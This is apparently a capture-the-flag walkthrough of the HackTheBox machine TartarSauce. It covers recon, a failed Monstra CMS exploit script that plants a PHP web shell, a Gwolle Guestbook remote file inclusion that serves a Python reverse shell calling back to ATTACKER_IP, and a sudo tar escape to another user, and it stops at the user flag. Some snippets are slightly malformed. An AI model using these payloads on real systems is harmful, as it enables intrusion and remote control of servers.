








# TartarSauce — Writeup

> Platform: HackTheBox · Difficulty: **Medium** · OS: **Linux**
> Target: `10.129.1.185` (`tartarsauce.htb`)
> Ref: [app.hackthebox.com/machines/TartarSauce](https://app.hackthebox.com/machines/TartarSauce)

## Summary

TartarSauce is a Medium Linux box where the obvious Monstra CMS path is a time-sink and the real foothold sits one directory deeper. Port 80 only; `robots.txt` lists several `/webservices/` paths including Monstra 3.0.4 (`admin:admin`), but the chunk-upload RCE returns 500 and goes nowhere. Broader gobuster under `/webservices/` finds `/wp`. Broken absolute links reveal the vhost `tartarsauce.htb`; after adding it to `/etc/hosts`, aggressive `wpscan` surfaces the **Gwolle Guestbook** plugin, which is vulnerable to unauthenticated **RFI (CVE-2015-8351)**. Hosting a malicious `wp-load.php` and hitting `ajaxresponse.php?abspath=` yields a shell as `www-data`.

As `www-data`, `sudo -l` allows `tar` as `onuma`. GTFOBins-style `--checkpoint-action=exec=` drops a shell as `onuma` and the user flag. A five-minute `backuperer.timer` runs `/usr/sbin/backuperer` as root: it tars `/var/www/html` into a random file under `/var/tmp`, sleeps 30s, extracts, and `diff`s. Swapping that archive mid-flight for a tarball whose extract tree contains a symlink into `/root` makes the integrity-check `diff` print the root flag into `/var/backups/onuma_backup_error.txt`. The same race can drop a root-owned SUID binary for a full root shell. Intended dead ends: grinding Monstra, chasing WordPress DB creds as `www-data`, and hunting an SSH password when port 22 is not open.

---

## Recon

### Port scanning

**rustscan**

```bash
rustscan -a "$IP_ADDRESS" -ulimit 5000 -- -sC -sV -oA "nmap/quick"
```

**nmap**

```bash
nmap -sC -sV -p- -oA "nmap/full" "$IP_ADDRESS"

└──╼ $ nmap -sC -sV -oA ./nmap/quick.nmap 10.129.1.185
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-02-06 22:25 +08
Nmap scan report for 10.129.1.185
Host is up (0.0043s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Landing Page
| http-robots.txt: 5 disallowed entries
| /webservices/tar/tar/source/
| /webservices/monstra-3.0.4/ /webservices/easy-file-uploader/
|_/webservices/developmental/ /webservices/phpmyadmin/
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.56 seconds
```

Only HTTP on 80. The artifact that matters in the scan is `robots.txt` leaking five `/webservices/` paths.

### Enumeration

```robots.txt
User-agent: *
Disallow: /webservices/tar/tar/source/
Disallow: /webservices/monstra-3.0.4/
Disallow: /webservices/easy-file-uploader/
Disallow: /webservices/developmental/
Disallow: /webservices/phpmyadmin/
```

#### Monstra CRM

`http://<IP-ADDRESS>/webservices/monstra-3.0.4/`



Source for the installed version is available upstream: https://github.com/monstra-cms/monstra/releases/download/v3.0.4/monstra-3.0.4.zip

Admin login at `http://10.129.1.185/webservices/monstra-3.0.4/admin/index.php?id=pages`:



Credentials are `admin` / `admin`.

---

## Stage 1: Dead end — Monstra theme-chunk RCE

An ExploitDB Monstra 3.0.4 RCE (EDB-ID:52038, modified) was tried against the authenticated admin session:

`I found the exploit here

```py
# Exploit Title: Monstra CMS 3.0.4 - Remote Code Execution (RCE)
# Version: 3.0.4
# This is the modified version from exploitdb - EDB-ID:52038
# https://www.exploit-db.com/exploits/52038

import requests
import random
import string
import time
import re
import sys

if len(sys.argv) < 4:
    print("Usage: python3 script.py <url> <username> <password>")
    sys.exit(1)

base_url = sys.argv[1]
username = sys.argv[2]
password = sys.argv[3]

session = requests.Session()

login_url = f'{base_url}/admin/index.php?id=dashboard'
login_data = {
'login': username,
'password': password,
'login_submit': 'Log+In'
}

filename = ''.join(random.choices(string.ascii_lowercase + string.digits, k=
5))

print("Logging in...")
response = session.post(login_url, data=login_data)

if 'Dashboard' in response.text:
    print("Login successful")
else:
    print("Login failed")
    exit()

time.sleep(3)

edit_url = f'{base_url}/admin/index.php?id=themes&action=add_chunk'
response = session.get(edit_url) # CSRF token bulmak için edit sayfasınaerişim

token_search = re.search(r'''input type="hidden" id="csrf" name="csrf" value="(.*?)"''', response.text)
if token_search:
    token = token_search.group(1)
else:
    print("CSRF token could not be found.")
    exit()

content = '''
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
if(isset($_GET['cmd']))
{
system($_GET['cmd']);
}
?>
</pre>
</body>
</html>
'''

edit_data = {
'csrf': token,
'name': 'cool-flash-games.php'
'content': content,
'add_file': 'Save'
}

print("Preparing shell...")
response = session.post(edit_url, data=edit_data)
time.sleep(3)

if response.status_code == 200:
    print(f"Your shell is ready: {base_url}/public/themes/default/{filename}.chunk.php")
else:
    print("Failed to prepare shell.")
```

Crafted chunk payload:

```json
{
  "csrf": "0e3339532b582f536875510d129ea338abe4ae34",
  "name": "cream",
  "content": "\n<html>\n<body>\n<form method=\"GET\" name=\"<?php echo basename($_SERVER['PHP_SELF']); ?>\">\n<input type=\"TEXT\" name=\"cmd\" autofocus id=\"cmd\" size=\"80\">\n<input type=\"SUBMIT\" value=\"Execute\">\n</form>\n<pre>\n<?php\nif(isset($_GET['cmd']))\n{\nsystem($_GET['cmd']);\n}\n?>\n</pre>\n</body>\n</html>\n",
  "add_file": "Save"
}
```

```curl
curl -X POST 'http://10.129.1.185/webservices/monstra-3.0.4/admin/index.php?id=themes&action=add_chunk' \
  -d 'csrf=0e3339532b582f536875510d129ea338abe4ae34' \
  -d 'name=cream' \
  --data-urlencode 'content=<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER["PHP_SELF"]); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
if(isset($_GET["cmd"]))
{
system($_GET["cmd"]);
}
?>
</pre>
</body>
</html>' \
  -d 'add_file=Save' \
  -b 'PHPSESSID=81im27r7l75dschq183ag91un5'
```

The POST returns **500**. This path is a red herring — abandon Monstra for broader content discovery.

Stage result: none (dead end).

---

## Stage 2: Gobuster → WordPress → Gwolle RFI → www-data

### Gobuster under `/webservices/`

```bash
┌─[julien@parrot]─[~]
└──╼ $ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u 'http://10.129.1.185/webservices/'
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.1.185/webservices/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wp                   (Status: 301) [Size: 321] [--> http://10.129.1.185/webservices/wp/]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
┌─[julien@parrot]─[~]
└──╼ $
```

`/webservices/wp/` is a WordPress install that initially looks broken:



Absolute links point at the vhost `tartarsauce.htb`:



Add `tartarsauce.htb` to `/etc/hosts`:



The site then renders correctly. `/wp-admin` presents the login page:



`admin` / `admin` does not work here. `wpscan --enumerate all-plugins` (passive) finds little; aggressive mode is what surfaces the plugins that matter:

```bash
 | Version: 1.1.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/themes/voce/style.css?ver=4.9.4, Match: 'Version: 1.1.0'

[+] Enumerating Most Popular Plugins (via Passive Methods)

[i] No plugins Found.

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 0
 | Requests Remaining: 23
```

Aggressive rerun:

```bash
[+] brute-force-login-protection
 | Location: http://tartarsauce.htb/webservices/wp/wp-content/plugins/brute-force-login-protection/
 | Latest Version: 1.5.3 (up to date)
 | Last Updated: 2017-06-29T10:39:00.000Z
 | Readme: http://tartarsauce.htb/webservices/wp/wp-content/plugins/brute-force-login-protection/readme.txt
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/plugins/brute-force-login-protection/, status: 403
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Brute Force Login Protection <= 1.5.3 - Arbitrary IP Removal/Add via CSRF
 |     References:
 |      - https://wpscan.com/vulnerability/c736713a-3a40-4652-ad56-33c412240588
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-5034
 |      - https://github.com/0pc0deFR/Exploits/blob/master/CVE-2014-5034/exploit.html
 |      - https://github.com/0pc0deFR/wordpress-sploit-framework/blob/master/exploits/Brute_Force_Login_Protection_1_3_Cross_Site_Reque
st_Forgery
 |      - http://www.giphy.com/gifs/uocXxoUHzEf1PfMctO
 |
 | Version: 1.5.3 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/plugins/brute-force-login-protection/readme.txt

[+] gwolle-gb
 | Location: http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/
 | Last Updated: 2026-02-06T09:48:00.000Z
 | Readme: http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
 | [!] The version is out of date, the latest version is 4.10.1
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/, status: 200
 |
 | [!] 4 vulnerabilities identified:
 |
 | [!] Title: Gwolle Guestbook <= 2.5.3 - Cross-Site Scripting (XSS)
 |     Fixed in: 2.5.4
 |     References:
 |      - https://wpscan.com/vulnerability/00c33bf2-1527-4276-a470-a21da5929566
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-17884
 |      - https://seclists.org/fulldisclosure/2018/Jul/89
 |      - https://www.defensecode.com/advisories/DC-2018-05-008_WordPress_Gwolle_Guestbook_Plugin_Advisory.pdf
 |      - https://plugins.trac.wordpress.org/changeset/1888023/gwolle-gb
 |
 | [!] Title: Gwolle Guestbook < 4.2.0 - Reflected Cross-Site Scripting
 |     Fixed in: 4.2.0
 |     References:
 |      - https://wpscan.com/vulnerability/e50bcb39-9a01-433f-81b3-fd4018672b85
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24980
 |
 | [!] Title: Gwolle Guestbook < 4.7.2 - Reflected Cross-Site Scripting
 |     Fixed in: 4.7.2
 |     References:
 |      - https://wpscan.com/vulnerability/8794d753-2198-4aa9-b465-15299919f48a
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-24710
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/c4048480-25a8-449f-8edb-a2a8854425ff
 |
 | [!] Title: Gwolle Guestbook < 4.9.3 - Unauthenticated Stored Cross-Site Scripting via `gwolle_gb_content` Parameter
 |     Fixed in: 4.9.3
 |     References:
 |      - https://wpscan.com/vulnerability/ba39d490-5c88-4e2b-b65b-97717c0adcc0
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-5807
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/956f86c5-05af-41c3-a779-5b25f62122dd
 |
```

`searchsploit gwolle` finds the RFI that actually leads to code execution:

```txt
  Exploit: WordPress Plugin Gwolle Guestbook 1.5.3 - Remote File Inclusion
      URL: https://www.exploit-db.com/exploits/38861
     Path: /usr/share/exploitdb/exploits/php/webapps/38861.txt
    Codes: CVE-2015-8351, OSVDB-129197
 Verified: False
File Type: Unicode text, UTF-8 text, with very long lines (392)
Advisory ID: HTB23275
Product: Gwolle Guestbook WordPress Plugin
Vendor: Marcel Pol
Vulnerable Version(s): 1.5.3 and probably prior
Tested Version: 1.5.3
Advisory Publication:  October 14, 2015  [without technical details]
Vendor Notification: October 14, 2015
Vendor Patch: October 16, 2015
Public Disclosure: November 4, 2015
Vulnerability Type: PHP File Inclusion [CWE-98]
CVE Reference: CVE-2015-8351
Risk Level: Critical
CVSSv3 Base Score: 9.0 [CVSS:3.0/AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H]
Solution Status: Fixed by Vendor
Discovered and Provided: High-Tech Bridge Security Research Lab ( https://www.htbridge.com/advisory/ )

-----------------------------------------------------------------------------------------------

Advisory Details:

High-Tech Bridge Security Research Lab discovered a critical Remote File Inclusion (RFI) in Gwolle Guestbook WordPress plugin, which can be exploited by non-authenticated attacker to include remote PHP file and execute arbitrary code on the vulnerable system.

HTTP GET parameter "abspath" is not being properly sanitized before being used in PHP require() function. A remote attacker can include a file named 'wp-load.php' from arbitrary remote server and execute its content on the vulnerable web server. In order to do so the attacker needs to place a malicious 'wp-load.php' file into his server document root and includes server's URL into request:

http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]

In order to exploit this vulnerability 'allow_url_include' shall be set to 1. Otherwise, attacker may still include local files and also execute arbitrary code.

Successful exploitation of this vulnerability will lead to entire WordPress installation compromise, and may even lead to the entire web server compromise.
```

Host a malicious `wp-load.php` on the attacker box:

```php
<?php
exec("python -c 'import socket,subprocess,os;s=socket.socket();s.connect((\"ATTACKER_IP\",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/sh\",\"-i\"])'");
?>
```

Trigger the include:

```bash
┌─[julien@parrot]─[~/.hacklas/targets/track-oscp/TartarSauce/exploit]
└──╼ $ curl 'http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://ATTACKER_IP/' -vv
02:35:10.914935 [0-0] * Host tartarsauce.htb:80 was resolved.
02:35:10.914968 [0-0] * IPv6: (none)
02:35:10.914977 [0-0] * IPv4: 10.129.1.185
02:35:10.914987 [0-0] * [SETUP] added
02:35:10.915003 [0-0] *   Trying 10.129.1.185:80...
02:35:10.915048 [0-0] * [SETUP] Curl_conn_connect(block=0) -> 0, done=0
02:35:10.916128 [0-0] * [SETUP] Curl_conn_connect(block=0) -> 0, done=0
02:35:10.923268 [0-0] * [SETUP] Curl_conn_connect(block=0) -> 0, done=1
02:35:10.923462 [0-0] * Connected to tartarsauce.htb (10.129.1.185) port 80
02:35:10.923509 [0-0] * using HTTP/1.x
02:35:10.923587 [0-0] > GET /webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://ATTACKER_IP/ HTTP/1.1
02:35:10.923587 [0-0] > Host: tartarsauce.htb
02:35:10.923587 [0-0] > User-Agent: curl/8.14.1
02:35:10.923587 [0-0] > Accept: */*
02:35:10.923587 [0-0] >
02:35:10.924174 [0-0] * Request completely sent off
jk
```

Callback lands a shell as `www-data`:

```bash
$ whoami
www-data
$ cat /proc/self/environ
APACHE_RUN_DIR=/var/run/apache2APACHE_PID_FILE=/var/run/apache2/apache2.pidPATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin
:/binAPACHE_LOCK_DIR=/var/lock/apache2LANG=CAPACHE_RUN_USER=www-dataAPACHE_RUN_GROUP=www-dataAPACHE_LOG_DIR=/var/log/apache2PWD=/var/ww
w/html/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha$
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
mysql:x:107:111:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:108:112::/var/run/dbus:/bin/false
uuidd:x:109:113::/run/uuidd:/bin/false
dnsmasq:x:110:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:111:65534::/var/run/sshd:/usr/sbin/nologin
onuma:x:1000:1000:,,,:/home/onuma:/bin/bash
$ cat /etc/hosts
127.0.0.1    TartarSauce

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
$
```

```txt
# onuma:x:1000:1000:,,,:/home/onuma:/bin/bash
only useful user maybe?
```

Stage result: reverse shell as `www-data`.

---

## Stage 3: www-data enumeration (and dead ends)

WordPress DB credentials are in `/var/www/html/config.php`:

```php
define('DB_NAME', 'wp');
define('DB_USER', 'wpuser');
define('DB_PASSWORD', 'w0rdpr3$$d@t@b@$3@cc3$$');
define('DB_HOST', 'localhost');
```

### Dead end: MySQL as www-data

```bash
ERROR 1045 (28000): Access denied for user 'www-data'@'localhost' (using password: NO)
www-data@TartarSauce:/var/backups$
```

### Dead end: Monstra writable files / CodeMirror noise

There is a reference to `codemirror` in monstra:

```bash
Only in /var/www/html/webservices/monstra-3.0.4/plugins/codemirror/codemirror: addon
Only in /var/www/html/webservices/monstra-3.0.4/plugins/codemirror/codemirror: AUTHORS
Only in /var/www/html/webservices/monstra-3.0.4/plugins/codemirror/codemirror: bower.json
Only in /var/www/html/webservices/monstra-3.0.4/plugins/codemirror/codemirror: .gitattributes
Only in /var/www/html/webservices/monstra-3.0.4/plugins/codemirror/codemirror: .gitignore
Only in /var/www/html/webservices/monstra-3.0.4/plugins/codemirror/codemirror: .htaccess
Only in /var/www/html/webservices/monstra-3.0.4/plugins/codemirror/codemirror: index.html
Only in /var/www/html/webservices/monstra-3.0.4/plugins/codemirror/codemirror: keymap
Only in /var/www/html/webservices/monstra-3.0.4/plugins/codemirror/codemirror: lib
Only in /var/www/html/webservices/monstra-3.0.4/plugins/codemirror/codemirror: LICENSE
```

don't know if this is important

```html
< </textarea></form>
<     <script>
<       var editor = CodeMirror.fromTextArea(document.getElementById("code"), {
<         theme: "lesser-dark",
<         lineNumbers : true,
<         matchBrackets : true
<       });
<     </script>
< 
<     <p><strong>MIME types defined:</strong> <code>text/x-less</code>, <code>text/css</code> (if not previously defined).</p>
<   </article>
```

Two files look writable as `www-data`:

```bash
/var/www/html/webservices/monstra-3.0.4/sitemap.xml
/var/www/html/webservices/monstra-3.0.4/storage/pages/1.page.txt
```

Editing `.../storage/pages/1.page.txt` affects what appears on the webpage `/webservices/monstra-3.0.1/storage/pages/1.page.txt`:



Injecting PHP or JavaScript into that page produces nothing useful. Creating a new page file or renaming the extension is denied:

```bash
www-data@TartarSauce:/var/www/html/webservices/monstra-3.0.4/storage/pages$ echo 'page 2' > '2.page.txt'
bash: 2.page.txt: Permission denied
www-data@TartarSauce:/var/www/html/webservices/monstra-3.0.4/storage/pages$
www-data@TartarSauce:/var/www/html/webservices/monstra-3.0.4/storage/pages$ mv 1.page.txt 1.page.php
mv: cannot move '1.page.txt' to '1.page.php': Permission denied
```

The path that actually works is `sudo -l`: `www-data` can run `tar` as `onuma`.

Stage result: confirmation that Monstra write paths and the WP DB are dead ends; sudo tar is the pivot.

---

## Stage 4: tar as onuma → user flag

GTFOBins-style checkpoint abuse:

```bash
sudo -u onuma tar cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash --checkpoint-action=exec=/bin/bashv/null --checkpoint=1
```

```bash
www-data@TartarSauce:/$ sudo -u onuma tar cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash --checkpoint-action=exec=/bin/bashv/null --checkpoint=1

tar: Removing leading `/' from member names
onuma@TartarSauce:/$
```

User flag:

```bash
onuma@TartarSauce:~$ cat use
